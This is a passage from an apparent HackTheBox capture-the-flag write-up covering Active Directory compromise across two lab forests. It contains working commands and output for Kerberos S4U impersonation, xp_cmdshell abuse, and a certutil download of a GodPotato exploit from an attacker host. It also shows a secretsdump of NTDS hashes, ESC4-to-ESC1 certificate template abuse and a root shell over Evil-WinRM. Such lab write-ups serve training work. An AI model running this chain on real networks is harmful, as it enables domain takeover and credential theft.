Now, using `Pong_gMSA$`, I executed `getST.py` with the `-impersonate P.REINER` flag targeting the SPN `mssqlsvc/dc2.pong.htb`.

```bash
KRB5CCNAME=Pong_gMSA\$.ccache proxychains getST.py -spn mssqlsvc/dc2.pong.htb -impersonate P.REINER -k -no-pass pong.htb/Pong_gMSA$
```

```
[*] Impersonating P.REINER
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in P.REINER@mssqlsvc_dc2.pong.htb@PONG.HTB.ccache
```

I launched `mssqlclient.py` using this impersonated ticket.

```bash
KRB5CCNAME=P.REINER@mssqlsvc_dc2.pong.htb@PONG.HTB.ccache proxychains mssqlclient.py -k -windows-auth dc2.pong.htb
```

```
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
SQL (pong\P.Reiner  dbo@master)>
```



I was authenticated as `P.Reiner` with `dbo@master` administrative privileges.

I enabled `xp_cmdshell` and executed operating system commands.

```sql
SQL (pong\P.Reiner  dbo@msdb)> enable_xp_cmdshell
SQL (pong\P.Reiner  dbo@msdb)> RECONFIGURE
SQL (pong\P.Reiner  dbo@msdb)> xp_cmdshell whoami
output         
------------   
pong\svc_sql   

SQL (pong\P.Reiner  dbo@msdb)> xp_cmdshell whoami /priv
```

```
PRIVILEGES INFORMATION                                                             
----------------------                                                             
Privilege Name                Description                               State      
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeMachineAccountPrivilege     Add workstations to domain                Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```



The underlying service account running MSSQL was `pong\svc_sql`, and it had `SeImpersonatePrivilege` enabled.

### Potato Escalation to Local Administrator

With `SeImpersonatePrivilege` enabled on a service account, the classic local privilege escalation path is a Potato exploit. I transferred `GodPotato-NET4.exe` to `C:\programdata` using `certutil` through `xp_cmdshell`.

```sql
SQL (pong\P.Reiner  dbo@msdb)> xp_cmdshell certutil -urlcache -f http://10.10.15.173:8000/GodPotato-NET4.exe C:\programdata\GodPotato-NET4.exe
```

```
****  Online  ****                                    
CertUtil: -URLCache command completed successfully.
```

I tested token impersonation by executing `whoami /all` through GodPotato.

```sql
SQL (pong\P.Reiner  dbo@master)> xp_cmdshell C:\programdata\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

GodPotato triggered DCOM/RPC named pipe reflection, intercepted the system token, and spawned the command.

```
USER INFORMATION
----------------
User Name: NT AUTHORITY\SYSTEM
SID: S-1-5-18
```



The exploit yielded full `NT AUTHORITY\SYSTEM` execution.

I leveraged this privileged execution to add `c.carlssen` directly into the local `Administrators` group of `dc2.pong.htb`.

```sql
SQL (pong\P.Reiner  dbo@master)> xp_cmdshell "C:\programdata\GodPotato-NET4.exe -cmd \"net localgroup administrators c.carlssen /add\""
```

```
output                                                
---------------------------------------------------   
[*] CreateNamedPipe \\.\pipe\b8543bb4-4cf5-48fa-8086-fe1c93a9fa05\pipe\epmapper
[*] Wait for a client to connect...
[*] Triggering DCOM...
[!] Kerberos auth, try negotiate...
[*] Negotiate kerberos auth...
[*] ImpersonateNamedPipeClient OK
[*] Start Search Token...
[*] Target: Process 648
[*] Found token, create process with token...
[*] CreateProcessWithTokenW OK
The command completed successfully.
```

I verified that `c.carlssen` was now a local administrator on `dc2.pong.htb`.



---

## Root

### Secretsdump & Compromising R.MARTINELLI

With local administrative privileges on `dc2.pong.htb`, I ran `secretsdump.py` over proxychains to dump the Active Directory database (`NTDS.DIT`) and local LSA secrets.

```bash
KRB5CCNAME=c.carlssen.ccache proxychains secretsdump.py -k -no-pass dc2.pong.htb
```

```
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xdee71f7ea0e118519be7765b9db41a65
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a24454d98e39a4a6d022b5d3e64c9e71:::
[*] Dumping LSA Secrets
[*] _SC_MSSQLSERVER 
PONG\svc_sql:This!IsAServi@ceA1231ccount
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b8ebfb6e9972babf9c01311748261a8:::
C.Carlssen:1110:aad3b435b51404eeaad3b435b51404ee:e15edce7e905644a94f0c34a0b05104e:::
P.Reiner:1116:aad3b435b51404eeaad3b435b51404ee:6fa016af828999bda0e26861e00afb31:::
svc_sql:1119:aad3b435b51404eeaad3b435b51404ee:9e5de13bde362ad5cc68a49d26301c3b:::
Pong_gMSA$:1123:aad3b435b51404eeaad3b435b51404ee:989bd748ac8dd0b71ab24edccc9fc012:::
R.Martinelli:1124:aad3b435b51404eeaad3b435b51404ee:d60fc26a0569b953a5cebd1392232630:::
DC2$:1000:aad3b435b51404eeaad3b435b51404ee:e12246a7e57232eec29791ba3273a5b9:::
PING$:1103:aad3b435b51404eeaad3b435b51404ee:9cb8051ae7dd9e81fe5869810119bd25:::
[*] Kerberos keys grabbed
R.Martinelli:aes256-cts-hmac-sha1-96:61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98
```



Among the harvested domain credentials, I retrieved the NT hash and Kerberos AES256 key for `R.Martinelli`.

```
Username: R.Martinelli
NT Hash: d60fc26a0569b953a5cebd1392232630
AES256 Key: 61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98
```

I checked `R.Martinelli` in BloodHound to understand his role across the trust.





BloodHound showed that `R.MARTINELLI@PONG.HTB` was a member of `CA MANAGERS@PING.HTB`.

The `CA MANAGERS` group possessed `WriteOwner` and `WriteDacl` control over the certificate template `SMARTCARDAUTHENTICATION` located on `dc1.ping.htb`.

### Converting ESC4 to ESC1 on SmartcardAuthentication

In Active Directory Certificate Services, **ESC4** describes a misconfiguration where an attacker has write permissions (`GenericAll`, `WriteDacl`, or `WriteOwner`) over a certificate template.

While an ESC4 template may not be immediately vulnerable in its default configuration, an attacker with write access can overwrite template parameters in LDAP to turn it into an **ESC1** template.

#### Technical Clarification of ESC4 Weaponization

In its original state, the `SmartcardAuthentication` template had `Enrollee Supplies Subject : False`. When this flag is false, the Certification Authority ignores any Subject Alternative Name (SAN) submitted in a certificate request and instead populates the certificate identity using the authenticated requester's Active Directory attributes. Requesting a certificate as `c.roberts` would only ever return a certificate for `c.roberts`.

To abuse this template to impersonate the Domain Administrator, several steps were required.
1. The attacker grants enrollment permissions on the template to a compromised account (`c.roberts`).
2. The attacker modifies the template's `msPKI-Certificate-Name-Flag` attribute by setting the bit `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` (`0x00000001` or decimal `1`).
3. Setting `msPKI-Certificate-Name-Flag = 1` forces `Enrollee Supplies Subject : True`.

This transforms the template into **ESC1**, permitting any authorized enrollee to specify an arbitrary Subject Alternative Name (such as `administrator@ping.htb`).

First, I requested a TGT for `r.martinelli` using his dumped AES256 key.

```bash
proxychains getTGT.py pong.htb/r.martinelli -aesKey 61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98
```

Using `r.martinelli`'s Kerberos session, I used `bloodyad` to grant `c.roberts` (`S-1-5-21-750635624-2058721901-1932338391-2617`) `GenericAll` rights over the `SmartcardAuthentication` template on `dc1.ping.htb`.

```bash
KRB5CCNAME=r.martinelli.ccache proxychains bloodyad --host dc1.ping.htb -d pong.htb -u 'pong.htb/r.martinelli' -k add genericAll 'CN=SMARTCARDAUTHENTICATION,CN=CERTIFICATE TEMPLATES,CN=PUBLIC KEY SERVICES,CN=SERVICES,CN=CONFIGURATION,DC=PING,DC=HTB' S-1-5-21-750635624-2058721901-1932338391-2617
```

```
[+] S-1-5-21-750635624-2058721901-1932338391-2617 has now GenericAll on CN=SMARTCARDAUTHENTICATION,CN=CERTIFICATE TEMPLATES,CN=PUBLIC KEY SERVICES,CN=SERVICES,CN=CONFIGURATION,DC=PING,DC=HTB
```

Next, I weaponized the template by setting `msPKI-Certificate-Name-Flag` to `1`.

```bash
KRB5CCNAME=r.martinelli.ccache proxychains bloodyad --host dc1.ping.htb -d pong.htb -k set object 'CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb' msPKI-Certificate-Name-Flag -v 1
```

```
[+] CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb's msPKI-Certificate-Name-Flag has been updated
```

I verified the updated template configuration with Certipy.

```
Template Name                       : SmartcardAuthentication
DisplayName                         : Smartcard Authentication
[+] Client Authentication           : True
[+] Enrollee Supplies Subject       : True
Permissions
  Enrollment Permissions
    Enrollment Rights               : PING.HTB\C.Roberts
[!] Vulnerabilities
  ESC1                              : Enrollee supplies subject and template allows client authentication.
```



The template now presented an active ESC1 vulnerability.

### Requesting Domain Administrator Certificate & Grabbing Root

With `SmartcardAuthentication` configured to allow enrollees to supply subjects, I requested a certificate on behalf of `administrator@ping.htb` using `c.roberts`'s Kerberos session.

```bash
KRB5CCNAME=c.roberts.ccache proxychains -q certipy req -k -no-pass -target dc1.ping.htb -dc-host dc1.ping.htb -ca ping-DC1-CA -template SmartcardAuthentication -upn administrator@ping.htb -sid 'S-1-5-21-750635624-2058721901-1932338391-500'
```

```
[*] Requesting certificate via RPC
[*] Request ID is 24
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@ping.htb'
[*] Certificate object SID is 'S-1-5-21-750635624-2058721901-1932338391-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

`administrator.pfx` was saved to disk. I performed PKINIT authentication with Certipy to obtain a Domain Administrator Kerberos ticket and recover the Administrator's NT hash.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.81.32
```

```
[*] Certificate identities:
[*]     SAN UPN: 'administrator@ping.htb'
[*]     SAN URL SID: 'S-1-5-21-750635624-2058721901-1932338391-500'
[*]     Security Extension SID: 'S-1-5-21-750635624-2058721901-1932338391-500'
[*] Using principal: 'administrator@ping.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@ping.htb': aad3b435b51404eeaad3b435b51404ee:63905deb12b527aadfdbc26d3f423eff
```

Using the generated `administrator.ccache`, I connected to `dc1.ping.htb` via Evil-WinRM.

```bash
KRB5CCNAME=administrator.ccache evil-winrm-py -i dc1.ping.htb -k
```

```
[*] Connecting to 'dc1.ping.htb:5985' as 'administrator@PING.HTB'
evil-winrm-py PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
cff64453ce10a334edf985ce22febac4
```



The root flag was captured, completing the full compromise of both `PING.HTB` and `PONG.HTB` forests.

---

## Lessons Learned

**NTLM disabling requires flawless Kerberos discipline.** When environments enforce NTLM restriction policies, standard automated tooling that relies on NTLM fallbacks will fail with `STATUS_NOT_SUPPORTED`. Penetration testers must maintain accurate DNS entries in `/etc/hosts`, keep local system clocks synchronized to within milliseconds of the target DC using `ntpdate`, and understand how Kerberos ccache tickets and referrals work across trust boundaries.

**AD CS ESC13 turns unprivileged domain users into local administrators.** Issuance policies linked to security groups via `msDS-OIDToGroupLink` represent a critical privilege escalation risk. Enrolling in a benign-looking certificate template can dynamically inject privileged group SIDs (`TempWinRMAccess`) into a user's Kerberos PAC upon PKINIT authentication.

**Group scope conversion rules can bridge cross-forest boundaries.** A Global group cannot contain accounts from an external domain. However, if an attacker owns the group, Active Directory allows converting the group from Global to Universal, and subsequently from Universal to Domain Local. Once Domain Local, foreign security principals from trusted forests can be added, granting immediate access to sensitive assets like Group Managed Service Account (gMSA) passwords.

**JEA endpoints must be audited for language mode escapes and user data leakage.** While JEA aims to enforce least privilege, Constrained Language Mode still permits scriptblock invocation (`&{ ... }`) under certain conditions. Furthermore, virtual administrator accounts often share user profiles where previous administrative sessions leave sensitive traces, such as plaintext credentials stored inside `ConsoleHost_history.txt`.

**MSSQL Kerberos authentication requires exact service principal matching.** When authenticating to MSSQL over Kerberos through proxies or trusts, clients often fail if they only possess a standard logon TGT. Requesting an explicit Service Ticket for `mssqlsvc/<fqdn>` ensures seamless Kerberos negotiation.

**Resource-Based Constrained Delegation (RBCD) remains a potent lateral movement primitive.** Any user with write access over a service account or computer object can configure RBCD to allow controlled accounts to impersonate high-privileged users like database administrators via S4U2Proxy.

**ESC4 templates are essentially root CAs in waiting.** Granting `WriteOwner`, `WriteDacl`, or `GenericAll` over a certificate template allows an attacker to rewrite the template configuration in LDAP. By flipping `msPKI-Certificate-Name-Flag` to `1` (`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`), an attacker converts an unexploitable template into an ESC1 arbitrary SAN takeover primitive.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Network port scanning and service detection |
| **netexec (nxc)** | Kerberos validation, SMB policy checks, user enumeration, and gMSA password retrieval |
| **rusthound-ce** | Kerberos and LDAPS-aware BloodHound CE collection |
| **BloodHound CE** | Graph-based Active Directory trust and access path analysis |
| **certipy-ad** | AD CS vulnerability enumeration, certificate enrollment, and PKINIT authentication |
| **evil-winrm-py** | Kerberos-authenticated Windows Remote Management access |
| **chisel** | Reverse SOCKS5 tunneling across dual-NIC network segments |
| **proxychains-ng** | Transparent SOCKS5 proxy routing for Linux tools |
| **bloodyad** | Active Directory object manipulation, group scope conversion, and DACL modification |
| **pwsh (PowerShell Core)** | Native WS-Man remoting and interactive JEA session interaction |
| **impacket (getTGT.py / getST.py)** | Requesting initial Kerberos tickets and S4U2Proxy service tickets |
| **impacket (mssqlclient.py)** | Kerberos-authenticated interaction with Microsoft SQL Server |
| **impacket (secretsdump.py)** | Remote SAM, LSA secrets, and NTDS.DIT database extraction |
| **GodPotato-NET4** | DCOM named pipe potato exploit for SeImpersonatePrivilege escalation |

**References:**
- [GodPotato GitHub Repository](https://github.com/BeichenDream/GodPotato)
- [Hackviser MSSQL Pentesting Guide](https://hackviser.com/tactics/pentesting/services/mssql)
- [Hacking Articles Detailed Guide on Certipy](https://www.hackingarticles.in/a-detailed-guide-on-certipy/)
- [ViperOne AD CS ESC4 Exploitation](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adcs/esc4)
- [Adminions BloodyAD Resource-Based Constrained Delegation Guide](https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad#bkmrk-add-resource-based-c)
- [Microsoft Learn PowerShell JEA Prerequisites](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/prerequisites?view=powershell-7.6)
- [0xdf HackTheBox Reel2 Writeup (JEA Techniques)](https://0xdf.gitlab.io/2021/03/13/htb-reel2.html)
- [Phil Keeble Active Directory Privilege Escalation - JEA](https://cheats.philkeeble.com/active-directory/ad-privilege-escalation/jea)
- [NetExec Wiki LDAP Protocol Enumerate Group Members](https://www.netexec.wiki/ldap-protocol/enumerate-group-members)
- [The Hacker Recipes Read GMSA Password](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)
- [NetExec Wiki SMB Protocol Enumeration](https://www.netexec.wiki/smb-protocol/enumeration)
- [Evil-WinRM Python Implementation GitHub](https://github.com/adityatelange/evil-winrm-py)
- [The Hacker Recipes AD CS Certificate Templates ESC13](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc13-issuance-policiy-with-privileged-group-linked)
- [NetExec Wiki SMB Generate krb5.conf File](https://www.netexec.wiki/smb-protocol/generate-krb5.conf-file)
- [Hacking Articles Impacket for Pentester MSSQL Exploitation](https://www.hackingarticles.in/impacket-for-pentester-mssql-exploitation/)
